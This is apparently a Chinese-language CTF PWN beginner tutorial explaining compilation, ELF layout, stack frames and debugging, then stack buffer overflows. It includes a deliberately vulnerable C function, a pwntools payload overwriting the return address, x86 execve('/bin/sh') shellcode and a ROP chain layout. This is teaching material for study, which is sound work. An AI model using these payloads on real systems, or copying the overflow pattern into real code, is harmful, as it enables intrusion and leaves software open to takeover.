# 课程 P1：CTF PWN 从入门到入坑 🚀


在本节课中，我们将要学习CTF竞赛中PWN方向的基础知识。PWN主要涉及二进制漏洞的发现与利用。课程将从程序编译与装载的基础原理讲起，逐步深入到栈溢出漏洞的利用，并介绍相关的调试工具和分析方法。内容力求简单直白，让初学者能够看懂。

---

## 概述：从代码到可执行文件 🏗️

上一节我们介绍了课程的整体内容，本节中我们来看看一个C语言程序是如何从源代码变成可执行文件的。

程序员编写的C语言代码，CPU并不能直接理解。CPU只能识别二进制指令。因此，源代码需要经过一系列转换。

这个过程可以抽象为：**源代码 (`.c`) -> 预编译 (`.i`) -> 汇编代码 (`.s`) -> 目标文件 (`.o`) -> 可执行文件 (`.out`)**。


以下是使用GCC编译器演示这个过程的命令：
```bash
gcc -E hello.c -o hello.i  # 预编译
gcc -S hello.i -o hello.s  # 编译为汇编
gcc -c hello.s -o hello.o  # 汇编为目标文件
gcc hello.o -o a.out       # 链接为可执行文件
```
最终生成的 `a.out` 文件就是操作系统可以加载执行的程序。


---

## ELF文件格式初探 📁




上一节我们了解了程序的生成过程，本节中我们来看看生成的可执行文件的具体结构——ELF格式。

ELF（Executable and Linkable Format）是Linux系统下可执行文件、目标文件、共享库的标准格式。一个ELF文件主要由以下几部分组成：


1.  **ELF头（ELF Header）**：包含文件的魔数、架构、入口点地址等信息。
2.  **程序头表（Program Header Table）**：告诉操作系统如何将文件**装载**到内存中。
3.  **节头表（Section Header Table）**：描述了文件的各个**节**（如代码节 `.text`，数据节 `.data`）的信息。

我们可以使用 `readelf` 命令来查看这些信息：
```bash
readelf -h a.out  # 查看ELF头
readelf -l a.out  # 查看程序头表（装载信息）
```
关键信息包括入口点地址（`Entry point address`），它指明了程序执行的第一条指令的位置。

---

## 程序在内存中的布局 🗺️



上一节我们看了文件的静态结构，本节中我们来看看程序被操作系统装载到内存后是如何布局的。



当一个程序运行时，操作系统会为它分配一块虚拟内存空间。这块空间大致布局如下（地址从高到低）：



*   **内核空间**：操作系统内核使用。
*   **栈（Stack）**：**向下增长**。存储函数调用信息、局部变量等。由 `esp`（栈顶指针）和 `ebp`（栈底指针）寄存器管理。
*   **内存映射区域（Memory Mapping Segment）**：用于装载共享库（如 `libc.so`）。
*   **堆（Heap）**：**向上增长**。用于动态内存分配（`malloc`）。
*   **BSS段**：存放未初始化的全局/静态变量。
*   **数据段（Data Segment）**：存放已初始化的全局/静态变量。
*   **代码段（Text Segment）**：存放程序的执行代码（机器指令）。

理解这个布局对于后续分析漏洞至关重要，因为漏洞利用常常涉及在栈或堆上构造特殊数据。

---

## 调试工具简介：GDB与IDA 🛠️

上一节我们了解了程序的内存布局，本节中我们来看看分析二进制程序最重要的两个工具：GDB和IDA。

要进行漏洞分析和利用，必须能够动态跟踪程序的执行。以下是两个核心工具：

*   **GDB**：GNU项目下的命令行调试器，功能强大，是Linux下的标准调试工具。
*   **IDA Pro**：强大的交互式反汇编器和调试器，具有图形化界面，能生成易读的伪代码。

以下是GDB的基本使用命令：
```bash
gdb ./a.out          # 启动GDB并加载程序
break main           # 在main函数入口处设置断点
run                  # 运行程序
stepi / nexti        # 单步执行汇编指令
info registers       # 查看寄存器状态
x/10wx $esp          # 查看栈内存（10个4字节字）
```

在IDA中，通常使用 `F5` 键将汇编代码反编译为更易读的伪代码，使用 `F2` 设置断点，`F7`/`F8` 进行单步调试。




---

## 函数调用与栈帧 📞



上一节我们介绍了调试工具，本节中我们深入看看函数调用时，栈是如何工作的。这是理解栈溢出漏洞的基础。






当一个函数（例如 `funcA`）调用另一个函数（`funcB`）时，会发生以下事情：





1.  **调用者（funcA）**：
    *   将函数参数**从右向左**依次压栈。
    *   执行 `call funcB` 指令。该指令会将**返回地址**（即 `call` 下一条指令的地址）压栈，并跳转到 `funcB`。




2.  **被调用者（funcB）开场白（prologue）**：
    ```
    push ebp        ; 保存旧的栈底指针
    mov ebp, esp    ; 设置新的栈底指针
    sub esp, XX     ; 在栈上为局部变量分配空间
    ```
    此时，栈帧结构如下（地址从高到低）：
    ```
    ... 高层栈帧 ...
    funcA的局部变量
    funcB的参数
    **返回地址**   <--- 关键！控制程序流程
    **旧的ebp值**  <--- 当前ebp指向这里
    funcB的局部变量 <--- esp指向这里
    ... 栈顶 ...
    ```



3.  **被调用者（funcB）结束语（epilogue）**：
    ```
    mov esp, ebp    ; 回收局部变量空间（栈顶回到栈底）
    pop ebp         ; 恢复旧的栈底指针
    ret             ; 从栈顶弹出**返回地址**并跳转回去
    ```
    `ret` 指令本质上等同于 `pop eip`，它决定了接下来CPU执行哪里代码。



**核心概念**：如果我们可以覆盖栈上的**返回地址**，就能劫持程序的执行流程。

---





## 栈溢出漏洞原理与实践 💥



上一节我们理解了栈帧和返回地址，本节中我们来看一个具体的栈溢出漏洞例子。

考虑以下有问题的C代码：
```c
#include <stdio.h>
#include <unistd.h>
void vulnerable_function() {
    char buf[10]; // 栈上只分配了10字节的缓冲区
    read(STDIN_FILENO, buf, 50); // 但允许读入50字节！
}
int main() {
    vulnerable_function();
    return 0;
}
```
`read` 函数会向 `buf` 写入最多50字节的数据，但 `buf` 在栈上只有10字节的空间。多出来的40字节数据会覆盖栈上 `buf` 之后的内容，包括**返回地址**。


**利用步骤**：
1.  **确定偏移量**：我们需要精确计算从缓冲区开始到返回地址的字节数。可以使用模式字符串工具（如 `cyclic`）来定位。
    ```bash
    python3 -c "import pwn; print(pwn.cyclic(50))" > payload
    gdb ./pwn_me
    # 运行程序，输入payload，程序崩溃时记录覆盖EIP的4个字节
    # 使用 cyclic -l <覆盖的4字节> 计算偏移量
    ```
    假设计算出偏移量是 `offset`。




2.  **构造Payload**：
    *   填充 `offset` 个任意字符（如 `‘A’`）。
    *   填入我们想要跳转的地址（如某个函数的地址，或一段Shellcode的地址）。
    ```python
    # 使用pwntools库的示例
    from pwn import *
    offset = 22
    target_address = 0x08048432  # 例如，一个后门函数的地址
    payload = b'A' * offset + p32(target_address)
    ```


3.  **发送Payload**：将构造好的数据发送给目标程序，即可实现EIP劫持。

---

## Shellcode与利用开发 🐚

上一节我们实现了控制EIP，本节中我们来看看如何让被劫持的程序执行我们想要的代码——获取一个Shell。





**Shellcode**是一段用于完成特定功能的机器码，通常用汇编语言编写。最常见的目的是启动一个Shell（`/bin/sh`）。


以下是一个Linux x86系统调用执行 `execve(“/bin/sh”, 0, 0)` 的汇编Shellcode示例：
```asm
section .text
global _start
_start:
    xor eax, eax    ; 清空eax
    push eax        ; 字符串结尾的NULL
    push 0x68732f2f ; “//sh”
    push 0x6e69622f ; “/bin”
    mov ebx, esp    ; ebx指向“/bin/sh”字符串地址
    xor ecx, ecx    ; ecx = 0 (argv)
    xor edx, edx    ; edx = 0 (envp)
    mov al, 0xb     ; syscall number for execve
    int 0x80        ; 触发系统调用
```
将其汇编、链接并提取出二进制机器码，就是一段可用的Shellcode。

**利用方式**：
1.  **直接跳转到Shellcode**：如果我们可以将Shellcode写入内存（如栈上的缓冲区），并且知道其地址，那么直接将返回地址覆盖为该地址即可。Payload结构为：`[填充字符][Shellcode地址][Shellcode]`。
2.  **面临的问题**：现代系统有**NX（DEP）保护**，使栈内存不可执行。我们的Shellcode在栈上无法运行。

---

## 绕过保护：ROP技术 🧩


上一节提到NX保护会阻止执行栈上的代码，本节中我们介绍一种强大的绕过技术——ROP（Return-Oriented Programming，面向返回编程）。

ROP的核心思想是：**利用程序中已有的代码片段（gadgets）来拼凑出我们需要的功能**。这些代码片段通常以 `ret` 指令结尾。

例如，我们需要设置 `eax=0xb`, `ebx=指向”/bin/sh”的地址`, `ecx=0`, `edx=0`，然后执行 `int 0x80`。
我们可以在程序中寻找以下gadgets：
```
pop eax; ret        # 将栈上下一个值弹出到eax，然后ret
pop ebx; ret        # 将栈上下一个值弹出到ebx，然后ret
pop ecx; ret
pop edx; ret
int 0x80; ret
```
以及一个存储字符串 “/bin/sh” 的地址。


**构造ROP链**：
我们的Payload将不再是Shellcode，而是一系列**地址+数据**：
```
[填充字符]
[pop_eax_gadget地址]
[0xb]                    # eax的值
[pop_ebx_gadget地址]
[“/bin/sh”地址]          # ebx的值
[pop_ecx_gadget地址]
[0]                      # ecx的值
[pop_edx_gadget地址]
[0]                      # edx的值
[int_0x80_gadget地址]
```
当程序执行到第一个 `ret`（即跳转到 `pop_eax_gadget`）后，会依次执行这些gadgets，就像执行我们编写的程序一样，最终调用 `execve(“/bin/sh”, 0, 0)`。

可以使用 `ROPgadget` 或 `ropper` 等工具在二进制文件中搜索可用的gadgets。

---





## 总结与展望 🎯


本节课中我们一起学习了CTF PWN的入门知识。我们从程序编译、ELF格式、内存布局等基础概念讲起，然后深入分析了栈溢出漏洞的原理，并动手实践了覆盖返回地址、控制EIP的过程。接着，我们介绍了编写Shellcode来获取系统权限，并探讨了在NX保护启用时，如何使用ROP技术来绕过保护，完成漏洞利用。


这是一个从“入门”到“入坑”的快速旅程。二进制安全领域博大精深，除了栈溢出，还有堆漏洞、格式化字符串漏洞、整数溢出等众多内容等待探索。希望本教程为你打开了一扇门。





**关键要点回顾**：
*   理解程序如何从代码变为进程是基础。
*   **栈溢出**的核心是覆盖**返回地址**，控制 `EIP/RIP`。
*   **Shellcode**是达成攻击目标的机器码。
*   **ROP**是通过组合现有代码片段来绕过内存执行保护的高级技术。
*   熟练使用 **GDB** 和 **IDA** 是必备技能。


继续学习的方向可以是研究Linux堆管理机制（glibc malloc）、更复杂的ROP链构造、以及参加在线的CTF比赛实践。祝你学习顺利！